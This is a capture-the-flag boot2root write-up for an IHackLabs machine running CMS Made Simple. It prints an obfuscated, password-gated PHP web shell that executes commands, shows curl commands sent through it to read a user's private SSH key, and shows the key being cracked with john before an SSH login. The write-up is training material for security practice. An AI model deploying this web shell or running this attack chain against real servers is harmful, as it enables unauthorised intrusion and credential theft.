



# Boot2Root
## About
> Addresses:
> Mirror 1: preq01.ihacklabs.com
> Mirror 2: preq02.ihacklabs.com
> Mirror 3: preq03.ihacklabs.com

> NOTE: Mirror addresses are the same challenge, just attack one of them.
> NOTE 2: Machines will be restored every hour.

> Autor: IHackLabs


## Info
- IP: 54.36.134.35
- CMS made simple is running on the server

# Start
- Admin login page `http://preq03.ihacklabs.com/admin/login.php` or `http://54.36.134.35/admin/login.php`
- CMS made simple exploit from `hackthebox writeup` box will work
- We have the admin page now (`admin:lalala`)
- We have to upload a webshell instead of a revshell cuz we wanna hide our ip like a 1337 H4x0R  

- We use the webshell below:

```php
<?php

    {

        $pass = "21232f297a57a5a743894a0e4a801fc3"; // admin

        $A = chr(0x73);
        $B = chr(0x79);
        $C = chr(0x73);
        $D = chr(0x74);
        $E = chr(0x65);
        $F = chr(0x6d);

        $hook = $A.$B.$C.$D.$E.$F;

        if ($pass == md5($_POST["password"]))
        {

            $hook($_POST["cmd"]);

        }
        else
        {

            die();

        }

    }

?>
```

- We will name it `shell.txt` cuz **no php upload enabled** on the admin page
- We have **uploaded** it
- Now we have to change the `.txt` to `.php` to be able to use it :D  

- We have to copy instead of rename  

- Use it with `curl http://54.36.134.35/uploads/anyad/shell.php --data "password=admin&cmd=id"` from the *attacker* terminal  


## Foundings
- Users that have home dirs: `prequal`
- We have found his `/home/prequal/backup/id_rsa` file
```
curl http://54.36.134.35/uploads/anyad/shell.php --data "password=admin&cmd=cat /home/prequal/backup/id_rsa"
```
- This file is encrypted so we have to crack it
## Cracking the `id_rsa` and connect as user 
- We use `ssh2john id_rsa_enc > id_rsa_enc.hash` now.
- And then we can `john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa_enc.hash`
- We got the password `12345678`
## Decrypt the id_rsa with the password
- We will use `openssl rsa -in id_rsa_enc -out id_rsa`
- We have the **id_rsa** file now but we need to `chmod 400 id_rsa` too
## Sshing in
- Now we have the **id_rsa** so we can easily ssh in  
`ssh -i id_rsa prequal@54.36.134.35`

# WE GOT THE SHELL AS prequal
```
cat local.txt
H-c0n{3ab7568bdae26ac11f6b9e14cad546f9}
```


	


